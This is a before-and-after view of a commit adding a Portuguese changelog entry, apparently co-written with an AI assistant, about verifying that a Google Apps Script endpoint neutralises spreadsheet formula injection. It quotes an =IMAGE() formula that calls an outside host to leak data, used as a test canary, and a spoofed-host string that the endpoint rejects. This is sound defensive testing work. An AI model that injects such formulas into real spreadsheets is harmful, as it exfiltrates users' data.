

Before and after one commit to mattusca/missao-estudos, a Markdown page: tasks/changelog.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: protecao anti-formula verificada no endpoint (Version 3)
O primeiro redeploy nao pegou; detectado por teste. Reimplantado com
Nova versao, preservando a URL. Canario inerte confirma: =1+1 gravado
como texto literal em vez de avaliado.

Co-Authored-By: Claude Fable 5 <noreply@anthropic.com>

```diff
--- a/tasks/changelog.md
+++ b/tasks/changelog.md
@@ -215,3 +215,22 @@ limitam o estrago à calibragem, não ao acesso.
 ferramentas de matemática usa apenas valores internos; identidade renderizada
 restrita à lista `alunas` do JSON de build; regex da SHEET_URL ancorado no host
 exato (script.google.com.evil.com rejeitado — testado).
+
+## 2026-08-25 — Proteção anti-fórmula verificada no endpoint
+
+O primeiro redeploy não pegou: o `/exec` seguia na versão antiga mesmo com o
+`Código.gs` salvo. Detectado por teste, não por leitura — uma linha com
+`=IMAGE("http://example.com/vazou")` gravou `#REF!`, ou seja, o Sheets avaliou
+a fórmula. O Google chegou a exibir o aviso "formulas are trying to send and
+receive data from external parties"; aprovar o acesso teria ligado o vazamento.
+
+Corrigido com "Gerenciar implantações → Versão: Nova versão" (Version 3), que
+preserva a URL — o secret e as provas publicadas não precisaram mudar.
+
+Verificado de novo, agora com canário **inerte** (`=1+1`, sem requisição
+externa, aprendendo com a linha viva deixada no teste anterior): a célula
+guardou o texto literal `=1+1` em vez de avaliar para `2`. Proteção ativa.
+
+Nota operacional: `curl` devolve HTTP 411 nesses POSTs porque segue o redirect
+do Apps Script e reemite sem `Content-Length`. O POST original é processado —
+a verificação é ler a planilha, não o código de retorno.
```
Also changed, not shown: tasks/todo.md (+4 -0 lines).
